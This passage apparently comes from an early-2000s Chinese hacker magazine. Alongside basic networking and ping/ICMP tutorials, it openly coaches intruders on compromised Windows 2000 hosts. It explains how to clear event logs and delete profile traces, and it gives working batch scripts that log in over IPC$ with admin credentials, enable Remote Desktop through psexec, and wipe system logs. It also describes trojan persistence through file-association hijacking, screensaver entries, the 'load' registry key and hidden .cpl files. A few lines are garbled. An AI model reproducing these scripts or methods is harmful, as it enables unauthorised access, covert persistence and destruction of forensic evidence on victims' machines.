小菜鸟：Perl 是什么？

大菜鸟：一种古老的语言，据说是黑客必须掌握的语言，但是现在很多人去学 Java 了。

### 傻瓜黑客

小菜鸟：idq 是什么？

大菜鸟：`.idq` 和 `.ida`、`.unicode`、`.printer` 漏洞是 Windows 系统中 IIS 服务器最重要的三个漏洞。

小菜鸟：你有没有根据 IP 查地理地址的程序？

大菜鸟：我一般到网上去查：http://ip.loveroot.com/

小菜鸟：对了，还有个问题，Telnet 是什么？

大菜鸟：远程登录。

小菜鸟：是命令还是程序？

大菜鸟：命令就是程序，程序就是命令啊，就是可执行文件。

小菜鸟：我看《X档案》时，看到大家都在 MS-DOS 里运行 Telnet，这和直接运行有什么区别？

大菜鸟：因为 Telnet 是 Windows 自带的程序，这些自带程序都被 Windows 系统放在一个特定文件夹里，一般是 SYSTEM32 这个文件夹里。当在 MS-DOS 输入 Telnet 命令的时候，系统会自动到这个特定的文件夹里执行这些命令。

小菜鸟：那我在 MS-DOS 里运行 X-scan 行吗？

大菜鸟：不行，因为 X-scan 不是系统自带的。如果你非要这么做，就需要先安装 X-scan 这个软件，然后把 X-scan 的快捷方式放入我上面说的那个文件夹里。

小菜鸟：代理是什么意思？

大菜鸟：如果你叫 A 主机，想连接到 B 主机，那么可以在你（A 主机）和 B 主机之间用 C 主机来中介通信。

小菜鸟：那 ISP 算吗？

大菜鸟：也可以这样说，代理有好多种，定义也不是太死板。ISP 叫做网络服务提供商，我们拨号上网的时候，就是拨号到 ISP 的服务器，然后每次浏览网页都是 ISP 给我们转发过来的。从这点上看，ISP 倒是一个代理功能。

小菜鸟：什么是端口呢？是硬件还是软件？

大菜鸟：端口不是硬件。网络理论中说的端口指的不是主机板上一个个插口、插槽。可以说这里的端口是个“软”端口，是由网络中进程的通信方式定义的，一般称为 SOCKET 编程，就是用 IP、端口来定位一台主机中的进程。简单说，端口是两个主机进程间用于通信的大门，因此可以随便定义，只要让计算机能够根据端口找到正确的进程就行。打个比方，计算机就像一座大楼，这个大楼有好多入口（端口）；进到不同的入口中就可以到不同的公司（进程）。如果我们要和远程主机的 A 程序通信，那么我们只要把数据发向 A 端口就可以实现通信了。

小菜鸟：端口 8080 和 80 是一个吗？

大菜鸟：不是。8080 可能是用来提供 HTTP 服务的端口，更可能是 HTTP 代理服务。几号端口对应什么样的服务是可以更改的，比如说我们可以用 23 端口来提供 HTTP 服务（网页浏览服务），但是这样会带来很多不便，因为人们习惯认为 80 端口是 HTTP 服务。

### PING 的拷问

小二

好久没跟大伙介绍“菜式”了，今天小二我就给大家介绍一道特色菜——卤味“Ping”盘，请大家准备好碗筷，Ready，Action！！

命令 Ping——相信大家已经耳熟能详了，那么小二我今天就考考大家，看大家能得多少分。首先，我们打开命令提示符，在里面输入命令：`ping 172.19.55.20`（在这里就拿我机子的 IP 为例），我们将会得到如下结果，如图 1 所示。

```text
Microsoft Windows 2000 [Version 5.00.2195]
(C) 版权所有 1985-2000 Microsoft Corp.

C:\>ping 172.19.55.20

Pinging 172.19.55.20 with 32 bytes of data:

Reply from 172.19.55.20: bytes=32 time<10ms TTL=128
Reply from 172.19.55.20: bytes=32 time<10ms TTL=128
Reply from 172.19.55.20: bytes=32 time<10ms TTL=128
Reply from 172.19.55.20: bytes=32 time<10ms TTL=128


```

图 1

里面那些信息指的是什么意思呢？如果你的答案是不知道的话！那我们就一起来解答，好吗？
那如图 2 所示又是什么意思呢？这些信息告诉我们送出多少个封包（4 个），获得的回应是多少（4 个），丢失率又是多少（没丢失）。

```text
Ping statistics for 172.19.55.20:
    Packets: Sent = 4, Received = 4, Lost = 0 (0% loss),
```

图 2

如果你懂 E 文的话，图 3 的意思就好理解了。它的意思是来回所需时间的最小值和最大值以及平均值（在例子中的值都为 0）。

```text
Approximate round trip times in milli-seconds:
    Minimum = 0ms, Maximum = 0ms, Average = 0ms
```

图 3

上面的这种场景是当我们架设好一个 IP 网络的时候，检查网络是否连接成功最常见到的场面。那你知道这个卤味“Ping”盘是怎么做出来的吗？Ping 实用程序是通过 ICMP 来确定远程系统的可访问性的。

ICMP（Internet Control Message Protocol）网际消息控制协议，是 TCP/IP 协议栈中的维护协议，是每个 TCP/IP 实现中都需要的协议。它允许 IP 网络上的两个节点共享 IP 状态和错误信息。由于 TCP/IP 是一个开放式的网络环境，其动态性极高，在任何时候你都不可能确定对方是否连上网络或是否离开网络。所以在我们向对方投递资料封包之前，就要确定对方是否存在，路径是否可靠。这就像我们想去某个朋友家做客之前，首先必须打电话给他确定他是否在家；接着我们还必须弄明白到他家的路是怎么走的……ICMP 也是这样，它让我们能够检测网络的连接状况（看对方是否在家），也能确保路线的准确（到对方的路是怎么走）。它的功能主要有如下四种：

- 1. 侦测远程主机是否存在；  
- 2. 建立及维护路由资料；  
- 3. 重导资料传送路径（也称为 ICMP 重定向报文）；  
- 4. 资料流量控制。  

那么在两个节点 ICMP 沟通之中，计算机是如何识别的？它们是通过不同的信息来识别的。我们在命令提示符下输入如下命令 `netstat -s`，就可以看到如图 4 的信息。

```text
ICMP Statistics

                 Received   Sent
Messages            440     1414
Errors              231        0
Destination Unreachable 36     0
Time Exceeded         0        0
Parameter Problems    0        0
Source Quenches       0        0
Redirects             0        0
Echos                 1     1413
Echo Replies        172        1
Timestamps            0        0
Timestamp Replies     0        0
Address Masks         0        0
Address Mask Replies  0        0
```

图 4

那图 4 这些信息又代表着什么意思？请看表 1；而且在 ICMP 使用中会以不同的错误代码来回应各种错误信息，那又有哪些代码呢？意思是什么呢？具体请看下表 2。上面的这些就是这道菜的“佐料”了，希望它能为大家做出更好的“菜”有所帮助。By the way，基于这些“佐料”的另一道菜就是——Traceroute，希望大家能根据上面的知识自己做出一道好菜，到时不要忘了跑上跑下的小二哦！

| 信息 | 含义 |
|---|---|
| Echo request | 请求回应信息 |
| Echo reply | 一个回应信息 |
| Destination unreachable | 意思是目的地不可到达 |
| Source quench | 当使用 ICMP 出现问题时，用来阻止来源继续发送信息 |
| Redirect | 用来重新导向路由 |
| Time exceeded for a datagram | 当资料封包在某些路由网络中逾时，可以要求来源重送该封包 |
| Parameter problem on a datagram | 当一个 ICMP 封包出现参数错误时，会回复来源主机关于参数错误的信息 |
| Timestamp request | 要求对方送出时间信息，用以计算路由的差异，以满足同步协议的要求 |
| Timestamp reply | 回应 Timestamp Request 用的 |
| Information request | 用来在开机时取得网络信息 |
| Information reply | 回应 Information Request 信息 |
| Address mask request | 查询子网络 MASK 设定信息 |
| Address mask reply | 回应子网络 MASK 查询信息 |

表 1

| 错误代码 | 代表意思 |
|---|---|
| 0 | Network unreachable（网络不可达） |
| 1 | Host unreachable（主机不可达） |
| 2 | Protocol unreachable（协议不可达） |
| 3 | Port unreachable（端口不可达） |
| 4 | Fragmentation needed and DF set（需要分段，但是 DF 没有置位） |
| 5 | Source route failed（源路由失败） |
| 6 | Destination network unknown（目的网络不可知） |
| 7 | Destination host unknown（目的主机不可知） |
| 8 | Source host isolated（源主机被隔离） |
| 9 | Communication with destination network administratively prohibited（与被限制的目的网络通信） |
| 10 | Communication with destination host administratively prohibited（与被限制的目的主机通信） |
| 11 | Network unreachable for type of service（由于某种服务网络不可到达） |
| 12 | Host unreachable for type of service（由于某种服务主机不可到达） |

表 2

### 浅谈进入 Win2000 后留下的足迹

钟毅榕

谈到入侵系统，相信不少人都对入侵 Win2000 情有独钟吧。Win2000 的漏洞多，入侵的难度比其他系统低不说了，单是 3389 这样的界面型远程控制就已经够吸引人的了。不过，你知道自己入侵完系统后，会留下什么痕迹吗？最近找到了几台 Win2000 肉鸡，进入后，我惊异地发现，在这些肉鸡上，到处都可以看到其他入侵者留下来的痕迹。在这里，我们暂不分析来自 FTP、HTTP 的日志记录，一来限于篇幅，二来因为这样的入侵行为分析和防范有一定难度。而这篇文章针对的对象是学习入侵技术不久的初学者们，简单地让他们了解自己在肉鸡上留下了什么足迹，各位高手们看了可千万不要见笑。

#### 1. 系统的日志记录

好的管理员应该尽可能把可以记录的东西都记录下来。在本地安全策略中（如图 1 所示），对审核策略进行足够多的记录。你会发现，如果把所有审核都选定的话（只要你不嫌多），一个账号进行操作访问的整个过程都能够完整地记录下来，一点不漏。而在这些内容中，事件查看器（如图 2 所示）里记录的内容是最多的了，不但从安全日志里面可以查看所有审核事件，甚至连使用者登录时输入密码成功或失败的次数都能够记录，使用者对应用程序的各种操作记录更加不在话下。

```
[ ... 已经创建新的过程 ... ]
新的过程 ID: 4269918848
映像文件名: \WINNT\system32\CMD.EXE
创建者过程 ID: 2168673888
用户名: Sqlserver
域: NT AUTHORITY
登录 ID: (0x0,0x3E7)
```

可以看出，这是使用 LocalSystem 来运行 cmd.exe 的记录。

另外，如果自己的日志记录得太多，日志空间使用满了，这样 Win2000 就不再记录新的事件了。请在日志属性中选择“按需要改写日志”，这样可以记录新的事件，不过这样就可能会把需要分析的事件给改写了。

**对策**：如果你是用 3389 登录的话，那么在事件查看器中右击鼠标，选择“清除日志”就是了。如果你是用 IPC 或者 Telnet 的话，那么就用榕哥专门用来擦 PP 的“elsave”吧，具体用法就不多说了，自己看看说明。

## 2．系统自带的管理工具

Win2000 自带的管理工具好处多多，在黑客手里可以是入侵系统的神兵利器，在管理员手里就成为了安全之盾。

用管理工具中的“终端服务管理器”，管理员可以很轻松地看到有谁正在使用自己的电脑。如图 4 所示中，Sqlserver 就是我了，而那个 administrator 当然就是对方的管理员。啊？！管理员，快溜呀！！！

OK，让我们看一个帐号的成功审核事件的记录，如图 3 所示。

```
[ ... ]
主要用户名: SYSTEM
主域: NT AUTHORITY
主登录 ID: (0x0,0x28445D9)
客户端用户名: lisuser
客户端登录 ID: (0,0,0,40101D1)
客户端地址: 202.xxx.xxx.94
会话名称: Unknown
```

很明显，这是一个 3389 登录的事件，系统记录下了 IP 地址、机器名称以及使用的用户名。还是很齐全的吧。

而下面是一个详细追踪的记录：

另外，Win2000 的工具中有一个很好用的“网络监视器”，从 Win98 时代，这个工具就已经出现在 Windows 系统中了。这个小程序可以很轻松地截取与本机进行连接的所有计算机的信息，例如 IP 地址、连接协议等等，如图 5 所示。

> 注意：这个“网络监视器”在安装 Win2000 时并不是默认安装的，要使用的话就需要插入 Win2000 的安装光盘，在“添加/删除程序”那里添加安装。

对策：尽量把入侵的工作留在晚上夜深人静的时候来做。毕竟，这些不光彩的事，我们也就不要太张扬，呵呵。

## 3．“Documents and Settings”目录

这个目录是所有帐号的足迹存放地。当然，从 3389 或者本机进入使用图形界面就会留下帐号目录。我们来看看一个帐号的“Documents and Settings”目录里面有什么东西吧。首先选择“工具”→“文件夹选项”，然后选择“查看所有文件和文件夹”，不要隐藏任何东西。看到了吗？这是我在一台肉鸡上用 3389 登录过所留下来的痕迹（我登录用的帐号是 Sqlserver）。我们来看看这个以我的帐号命名的“Sqlserver”文件夹下有什么，如图 6 所示。

图 6

- “开始”菜单：当然是存放自己帐号的“开始”里的东西，这个里面的“启动”是个好东西哦。
- “Application Data”：一些应用程序留下的数据、备份什么的东西，分析用处不怎么大。
- “Cookies”：如果入侵者是通过 3389 进来的，还去浏览了网页的话，那么这里就存放着足够多的 Cookie，让你能够知道他到底去了哪些地方。
- “Local Settings”：这里也是一些临时数据的存放地，还有就是 IE 的脱机杂项。
- “Recent”：这个文件夹是隐藏的，不过里面存放的东西实在太多了，帐号访问的目录、文件一条一条都记录在案。
- “Templates”：存放临时文件的地方。

怎么样？开始害怕了吧，要是对方管理员突然心血来潮查看你的帐号文件夹的话，嘿嘿……

> 注意：因为在用 3389 登录的时候系统会调用这个文件夹，如果没有的话就自动生成。登录后定期删除它的话，如果没什么必要尽量不要用 3389 登录。

对策：Telnet 上对方计算机，建立一个内容为删除这个帐号文件夹的 bat 文件，用 AT 命令找个时间运行就可以了。

## 4．黑客工具留下的痕迹

入侵者进入了系统后，那他一定会想办法获得 administrator 权限。得到了这个权限，他就能为所欲为了。按照各种介绍的入侵教材，当然是放置其它扫描器做成肉鸡，安装后门、删除日志……呵呵，这些扫描器都有足够的日志可以提供分析，还能帮自己收发一些肉鸡。而且从这些工具的日志（配置文件）里面也可以看出入侵者的意图以及水平等等。

问题也就来了，有的入侵者往往在肉鸡上上传了大量的工具。如果这些工具软件所在的目录深入的话那也没什么，但很多入侵者为了贪图在使用时的方便，干脆就放在了肉鸡的 C 盘上。后面使用肉鸡完成入侵工作后，又忘记了把这些工具删除掉，这不就等于告诉别人说“Hi，你的电脑已经被我入侵了”吗？如图 7 所示，就是我在一台肉鸡的 C 盘中找到的小榕写的用来克隆帐号程序的 Ca，这傻瓜也够猖狂的吧！

图 7

还有，我们在给肉鸡种植木马的时候，往往会开放一些端口，而很多入侵者在配置木马的时候懒得去修改木马默认的端口，这是很危险的！只要对方管理员在 CMD 下用“Netstat -n”，或者专门的软件查看一下本机开放了什么端口，例如看到了自己的 7626 在侦听状态，谁还不知道自己中了冰河啊！如图 8 所示，就是冰河被杀毒软件发现的截图。

图 8

> 注意：现在网管们都是有一定功力的，一般的木马基本逃不过他们。因此我们在放置后门的时候就要搞大学问了，网上有许多关于设置后门的技巧，大家可以自己找找看。

对策：其实这些留下来的痕迹很容易避免，只要大家谨慎小心一些就可以避免了。一般会犯这种错误的入侵者大多数都是一些初学者，如果高手也犯这样的错误的话，那真的可以说是老猫烧须了，呵呵。

好了，有关入侵 Win2000 可能留下的痕迹就简单地说到这里吧，有兴趣的朋友可以自己找资料深入研究一下。

### BAT 文件在黑客技术中的妙用

小毅

前几天重看了一次《黑客X档案》2003年第1期的一篇名为“Win2K命令行下自做弱口令扫描器”的文章后，突发奇想：既然 Bat 文件在命令行下那么有用，那么如果能用它来帮助简化黑客实践的操作，一定会方便不少。

#### 一、基础知识简介

什么是 Bat 文件？Bat 文件，也就是批处理文件，说白了就是 DOS 操作。有人认为 DOS 操作早就过时，但其最大好处在于干脆、直接，很多时候 Windows 操作解决不了的问题，用批处理就可以很方便地解决。

#### 二、必备常识：批处理的编写和修改

打开记事本，将要编写的内容写在里面，然后存为 Bat 文件即可。要对 Bat 文件进行修改的话，可以用记事本直接打开。

#### 三、批处理文件应用之攻击篇

在这里，我们先假设所有文件都保存在 C 盘根目录下，另外还需要用到 Psexec 这个工具。

##### 1. 简化 CMD 下用 IPC$ 登录肉鸡的操作

```bat
@net use \\%1\ipc$ %3 /u:%2
@echo OK! 连接已经建立成功!
```

用法：在 CMD 下输入：login.bat 肉鸡的IP 肉鸡ADMIN组的账号名 用户的密码。这样以后用 IPC$ 登录肉鸡就不用每次都输入一大串命令了。

### 2. 开启对方的3389终端服务

假设已经用刚才的 login.bat 建立了 IPC$ 连接，建立一个 3389.bat 文件，代码如下：

```bat
@echo [Components] > c:\winnt\start
@echo TSEnable = on >> c:\winnt\start
@sysocmgr /i:c:\winnt\inf\sysoc.inf /u:c:\winnt\start
@del c:\3389.bat
```

再建立一个 open38.bat 文件，代码如下：

```bat
@copy 3389.bat \\%1\c$
@echo 向肉鸡复制本机的3389.bat------OK
```

```bat
@psexec \\%1 c:\3389.bat
@echo 在肉鸡上运行3389.bat------OK
@echo 等肉鸡重启后，您就可以用3389登录了！
```

用法：在 CMD 下输入：open38.bat 肉鸡IP。等对方计算机重启后就可以用 3389 登录了。

##### 3. 删除日志文件

假设已经与肉鸡进行了 ipc$ 连接，新建一个 del.bat 文件，代码如下：

```bat
@del c:\winnt\system32\logfiles\*.*
@del c:\winnt\system32\config\*.evt
@del c:\winnt\system32\dtclog\*
@del c:\winnt\system32\*.log
@del c:\winnt\system32\*.txt
@del c:\winnt\*.txt
@del c:\winnt\*.log
@del c:\del.bat
```

再新建一个 clean.bat 文件，代码如下：

```bat
@copy del.bat \\%1\c$
@echo 向肉鸡复制本机的del.bat------OK
@psexec \\%1 c:\del.bat
@echo 在肉鸡上运行del.bat，删除日志文件------OK
```

用法：在 CMD 下输入：clean.bat 肉鸡IP。同样，原理和开启 3389 差不多。在每一行开头添上“@”，这样命令就不会显示出来。

#### 四、批处理文件应用之防守篇

##### 1. 扫描本机端口

这个功能“优化大师”有，就是扫描哪个端口与 Internet 连接和连接 IP。这是及时发现并拦截非法连接很有用的功能。由于启动“优化大师”较慢，不利于随机使用，因此编写一个批处理来解决问题。

新建一个 look.bat 文件，代码如下：

```bat
@netstat -n
@pause
```

用法：直接运行 look.bat 便可。

##### 2. 查常见病毒

果真不幸感染，怎样才能发现呢？难道真的要买昂贵的杀毒软件吗？不一定。

我们可以编写批处理来查一些常见的网络病毒。如果确认感染病毒，可以下载专用杀毒工具进行查杀，或采取其他途径杀毒。

下面，我以“欢乐时光”为例进行分析：  
主文件：1.bat；其它文件：2.bat、3.bat  
1.bat 代码如下：

```bat
@if exist c:\folder.htt call 2.bat
@if exist d:\folder.htt call 2.bat
@if exist e:\folder.htt call 2.bat
@if exist f:\folder.htt call 2.bat
```

2.bat 代码如下：

```bat
@echo. 发现欢乐时光病毒!
@call 3.bat
@pause
```

3.bat 代码如下：

```bat
@c:
@dir *.htt *.ini /s/a > l.txt
@d:
@dir *.htt *.ini /s/a > l.txt
@e:
@dir *.htt *.ini /s/a > l.txt
```

用法：直接运行 1.bat 即可。  
这样，如果中毒，那么必定会存在大量 folder.htt 和 Desktop.ini，通过这样可以粗略地检查计算机是否感染病毒。

##### 3. 文件处理

假设我们要大规模地做文件的移动、删除等，如果在 Windows 里操作不会出现错误，而且这些错误不易察觉。因此，用批处理进行操作，不但简单易行，而且容易发现错误并可以及时纠正。

例如，我们要将 D 盘的 htm 文件移动到 E 盘，再格式化 D 盘，然后将文件移回 D 盘，并修改后缀为 html。  
1.bat 代码如下：

```bat
@E:
@Md d
@D:
@Copy *.htm e:\d
@if exist e:\d\*.htm call 2.bat
```

2.bat 代码如下：

```bat
@Format d: /q
@Copy e:\d\*.htm d:
@D:
@Ren *.htm *.html
```

从例子中可以看出，如果一旦出现问题，是很容易被发现的。从而，也证明了批处理的可用性。

批处理的运用，可以说博大精深，变化莫测，如果大家能够掌握好它的话，相信一定可以在使用计算机的时候更加得心应手。

### 几种容易被忽视的程序自启动方式

——hacker007

大家知道，在 Windows 中让程序自动启动的方式有很多，比如在启动组、Autoexec.bat、Config.sys、Winstart.bat、Win.ini、System.ini、Wininit.ini 文件中加载程序，还有注册表中的启动项都可以让程序自动运行……

这里要与大家探讨的是几种容易被人忽视的程序自启动方式，希望能对大家有所帮助。

### 一、修改文件打开方式启动

大家知道在注册表 `HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Run` 下可以加载程序，使之开机自动运行……

其实，除了这种方法，还有一种修改注册表的方法可以使程序自启动。具体来说就是更改文件的打开方式，这样就可以使程序跟随你打开的那种文件类型一起启动。

举个例子，展开到 `HKEY_CLASSES_ROOT\exefile\shell\open\command`，这里是 EXE 文件的打开方式，默认键值为：`"%1" %*`。

图 1

如果把默认键值改为 `Trojan.exe "%1" %*`，则每次运行 EXE 文件，这个 Trojan.exe 文件就会被执行……

> 注意：木马不仅可以关联 EXE 文件打开方式，也可能关联 TXT 等其它文件类型；因此应经常检查注册表中文件打开方式是否被恶意更改，必要时及时恢复。

### 二、利用屏幕保护启动

Windows 的屏幕保护程序对应的是 .scr 文件，它是 PE 格式的可执行文件，在默认情况下保存在 Windows 的安装目录下。如果把 .scr 更名为 .exe 文件，则该程序仍然可以正常启动……

.exe 文件更名为 .scr 文件也照样可以运行。

> 注意：顾延探下，把 `.exe` 文件改名为 `com`、`pif`、`bat` 后，EXE 文件仍可以自动运行。这在 EXE 文件关联想关系中非常有用，我们可以把 EXE 文件的扩展名改为上述扩展名，仍然可以运行。

在屏幕保护程序中，我们可以设定它的等待时间（如图 2 所示），这个启动时间其实是可以在注册表中设定的：`HKEY_USERS\.DEFAULT\Control Panel\desktop`，其下的字符串值 `ScreenSaveTimeOut` 记录的就是屏保程序的等待时间，时间单位为秒，从 60 秒开始记录，如果记录时间小于 60 秒，则自动定为 1 分钟。

图 2

是否选择了屏幕保护程序可以在 `system.ini` 文件中看出来。在“开始”菜单的“运行”中输入 `msconfig`，找到 System 标签，找到里面的 `[boot]` 小节，您可以看到有“`SCRNSAVE.EXE=`”这一行。在它后面是屏保文件的路径。如果你设定了屏保程序，这一行前面就会被勾选上，反之则没有。

由上面的介绍可以产生一个美妙的联想：如果把 `.exe` 文件重命名为 `.scr` 文件（假设改为 `trojan.scr`），并在 `SYSTEM.INI` 中添加“`SCANSAVE.EXE=C:\Program files\trojan.scr`”，然后修改注册表中的 `HKEY_USERS\.DEFAULT\Control Panel\desktop` 下的字符串值 `ScreenSaveTimeOut`，把其键值改为 60，则系统只要闲置一分钟该文件就会被启动。

> 注意：由此可以看出，如果这种方法被木马或病毒程序所利用，则非常可怕。防范这种安全方案就是禁止使用屏幕保护功能。

要想一次性地取消屏幕保护功能，可以通过修改注册表来实现。打开注册表编辑器，找到 `HKEY_CURRENT_USER\ControlPanel\desktop\ScreenSaveActive` 子键，“ScreenSaveActive”这个键决定屏幕保护功能是否可用，其键值为 0 或 1，为“0”时表示不启用屏幕保护功能，为“1”则表示可用。因此将“ScreenSaveActive”的键值改为“0”就可以禁止使用屏幕保护功能。

### 三、开机自动执行程序又一法

下面要介绍的开机自动执行程序只对 Windows 2000/XP 有效。点击“开始”菜单中的“运行”，在打开的“运行”对话框中输入 `Regedit`，打开注册表编辑器。顺次展开注册表到：`HKEY_CURRENT_USER\Software\Microsoft\Windows NT\CurrentVersion\Windows`，在这里新建一个字符串值，方法是右击主键“Windows”，在弹出的菜单中选择“新建”→“字符串值”，把该字符串命名为“load”。然后，双击“load”，在弹出的窗口中将它的键值改为你想开机就自动运行的程序路径。

> 注意：这里的路径必须使用文件的短文件名，即 `C:\Program Files` 应写为 `C:\Progra~1`，否则开机就自动运行的程序的启动不能在任何参数下实现。

如果改成在这里加载：`HKEY_USERS\用户ID号\Software\Microsoft\Windows NT\CurrentVersion\Windows`，那么这个方法对其他用户也有效，否则换个用户登录就不管用了。用这种方法加载程序运行非常隐蔽，在许多软件如 Windows 优化大师的“开机速度优化”中，根本看不到有程序被加载，所以如果被人利用，在这里加载恶意程序或木马，对大家威胁会非常大。

**防范方法：**建议大家以后检查木马及病毒程序时也要注意这里，免得被有心人有机可乘。

### 四、利用控制面板启动

控制面板是 Windows 的基本组件，长久以来 Windows 中一直都有它的身影存在。控制面板中的各个选项实际上是以 `cpl` 为后缀名的文件单独存在的，根据操作系统的不同，这些文件所在的位置也有所不同：Windows 9x/Me 下这些 cpl 文件位于 Windows 安装目录下的 System 子目录中，而 Windows NT/2000/XP 下则位于 Windows 安装目录下的 System32 子目录中。这些 cpl 文件再加上 Windows 安装目录中的 `control.exe` 和 `control.ini` 文件，就是控制面板的全部组成部分。

每一个 cpl 文件都对应“控制面板”中的一个选项，例如 `desk.cpl` 对应“桌面属性”、`inetcpl.cpl` 对应“Internet 属性”等等。由于 cpl 文件的特殊性，需要使用 `RunDll32.exe` 来启动该文件；换句话说，控制面板中的任何一个选项都可以通过 RunDll32.exe 调用。RunDll32.exe 是 Windows 动态链接库（DLL）管理工具，可以用来在命令行下执行动态链接库中的某个函数或者功能模块。

> 注意：Windows 安装目录中的 `rundll32.exe` 与 `rundll.exe`（或旧版 API 调用工具）并不完全等价，二者在不同系统版本中的支持能力存在差异。

另外，Windows 安装文件夹下还有一个 `RunDll.exe`，也是动态链接库管理工具。虽然不同版本的 Windows 都提供 RunDll.exe 和 RunDll32.exe 文件，但是在 Windows NT/2000/XP 下却只支持 32 位的 RunDll32.exe，只有 Windows 9x/Me 这种 16 位和 32 位混合使用的操作系统才同时对二者提供支持。下面我们看一个利用 RunDll32.exe 调用 shell32.dll 中的 `Control_RunDLL`，来打开 `desk.cpl` 的第一个属性页的例子。
```

### 傻瓜黑客

“开始”菜单，选择“运行”，输入：`RunDll32 shell32.dll,Control_RunDLL desk.cpl,,0`（注意是两个逗号），回车后，将打开“显示属性”对话框的“背景”窗口，如图3所示。


这说明这些 `.cpl` 文件是可执行的，事实上这些 `.cpl` 文件全部是 PE 格式文件。换个思路想一想，如果用户把一个可执行的类似动态链接库 DLL 的 `.cpl` 文件放入 System 子目录中，则在控制面板中可以看到这个 `.cpl` 文件的图标，并且是可以执行的。

`RunDll32.exe` 最强大的功能是对控制面板的管理，用 `RunDll32.exe` 调用控制面板程序格式如下：

```text
RunDll32 shell32.dll,Control_RunDLL *.cpl,,X
```

其中 `shell32.dll` 为被调用的 DLL 文件；`*.cpl` 为你想调用的 cpl 文件路径和文件名；最后的 `X` 为对应 cpl 文件的页数（从 0 开始）。

> 注意：`shell32.dll` 和 `Control_RunDLL` 两者之间只能以英文逗号分隔，逗号之后不能有空格，否则会报错。

根据上面的原理，就可以自己写一个无窗口或隐藏窗口的控制面板程序，将其写进注册表的启动项，使之可以自启动。

具体步骤就是在注册表启动项中加入 `RunDll32 shell32.dll,Control_RunDLL mycpl.cpl`，这样这个 `mycpl.cpl` 就会随用户机器启动时被调用。

> 注意：`mycpl.cpl` 如果保存在默认目录中可以不加路径，否则需要完整路径。

控制面板在执行时会加载 System 子目录中的所有 `*.cpl` 文件，所以只要把这个 cpl 木马放在 System（Win9X 下）或 System32（Win2K/XP 下）目录中即可达到目的。

> 注意：如果 `mycpl.cpl` 不是木马，也会在控制面板中显示出来，建议替换系统中某些不常用的 cpl 文件，做成“隐藏”。

是不是只有把 cpl 文件放到 System/System32 目录下才会被加载呢？不是。如果你的控制面板程序不在 Windows 目录，可以编辑 `control.ini`，在 `[MMCPL]` 小节里加入 `mycpl.cpl=D:\ok\mycpl.cpl` 即可。

如果不想让 cpl 文件显示在控制面板中，可以从 `control.ini` 入手：在 `[don't load]` 小节加入 `mycpl.cpl=no`，则该文件不会被加载。

> 注意：查杀方法是检查注册表启动项，发现利用 `RunDll32.exe` 调用异常 cpl 文件时，删除对应键值并按路径删除文件。

好了，到这里文章结束了，文中如有不正确或值得商榷之处欢迎批评指正。


在汉化过程中，每汉化一个程序都要付出艰辛劳动，所以我们要感谢所有汉化作者。没有他们的努力，我们使用一些国外软件时上手会困难很多。

## 利用系统Bug在网吧上巧妙隐藏目录和文件

netman

要想在“网吧”上隐藏目录和文件，方法有很多，比方说利用工具软件进行加密或隐藏，但是不是一定要利用第三方软件呢？当然不是。利用 Windows 系统的自身特性也可以隐藏目录和文件。

请大家和我一起做一个实验。打开“资源管理器”，在任意一个磁盘（假设是 E 盘）下建立一个目录，名为 good，然后进入此目录，在它的下面再建立一个子目录，假设为 123，然后在 123 子目录下再建立一个子目录 test，现在 test 这个目录的绝对路径就是 `E:\good\123\test`。接下来把你要隐藏的目录和文件都拷贝到 test 子目录下。然后点击“向上”按钮，来到 123 子目录，对着它点击鼠标右键，在弹出菜单中选择“重命名”，把这个 123 子目录改名为 1111……1111（字符可尽量拉长）。再点击“向上”按钮，来到最外层的 good 目录，用同样的方法把它也重命名，假设改名为 goodluck123。

既然在视窗界面下无法看到里面的内容，那么到 DOS 下试试看能否进入此文件夹。还是不行，这样隐藏在里面的目录和文件就被巧妙地隐藏起来了。谁能想到里面会有个 test 子目录呢？谁能想到 test 子目录下还有文件和文件夹呢？


图1

再让我们用其它软件来检视一下我们的隐藏结果。一般的隐藏文件或目录方法（如特殊空格法、文件夹空白图标法、修改注册表隐藏目录法等），都会在 Windows Commander、ACDSee、WinZIP 或 WinRAR 中显露原形；而本文方法隐藏的目录不会被显示在上述软件中，它们只能看到受保护文件夹的上一层目录，而无法看到里面隐藏的内容。下面我们以 ACDSee 为例，检验是否与上所述。

打开 ACDSee，可以看到它的界面与资源管理器很相似。左上窗口有 Windows 树型目录结构，右边主窗口为打开文件夹内容。找到我们隐藏目录和文件的那个 E 盘，根本无法看到 goodluck123 文件夹里面的 test 目录，如图2所示。所以说这种方法非常好。


图2

不过，这里有一个问题，那就是自己该如何访问隐藏在里面的文件夹和文件呢？很简单，只要 test 子目录的绝对路径的长度没有超过 254 个字符就可以进入其中。所以，给最外层的目录改名，比如将 goodluck123 改名为 g，然后就可以进入下一层目录，进而可以进入 test 子目录。当然，你也可以自己编写一个程序，来读取这个目录。

从上面的查看隐藏目录和文件的方法来看，这样隐藏文件有一定的风险，别人也可以用同样的方法进入此目录，查看到你隐藏的文件和目录。其实，只要略微变通一下，保护效果就会非常好。

> **注意**：关于绝对路径的小提示。绝对路径表示文件在磁盘中的完整位置（例如 `c:/apache/cgi-bin/image/photo.jpg`）。如果该路径过长，系统将无法正常访问。

为什么会这样呢？其实，这只是利用了 Windows 系统的一个小 Bug：Windows 目录的绝对路径是不能超过 254 个字符的。如果你建立的目录绝对路径超过 254 个字符，系统是绝对看不到的。反过来讲，系统也不允许你直接建立一个绝对路径长度超过 254 个字符的目录。而我们前面所做的就是先建立一个目录，其绝对路径超过了 254 个字符，所以从此无法访问里面包含的子目录和文件了。

首先进入 `C:\recycled`（即回收站）目录下，用文中刚开始提到的方法建立超长目录，并把要隐藏的文件和文件夹移动到其中；同时选定这些文件和目录按右键，在弹出菜单中选择“属性”，将其属性设为“隐藏”。这样在 Windows 里就看不到这些文件了。

其实，这只是利用了回收站中的 `desktop.ini` 文件，千万不要将它删除了。你也可以将 `desktop.ini` 文件拷贝到其它文件夹，那个文件夹就会变为回收站。假如你隐藏的是可执行文件，当你要使用该文件时，可以在“开始”→“运行”中输入“绝对路径 + 文件名”即可。

> **注意**：这并不是非常封闭的隐藏法。只要安装新软件或进行系统维护，仍可能被发现；例如在某些系统目录（如 `C:\WINDOWS\fonts`）中操作时需要格外小心。

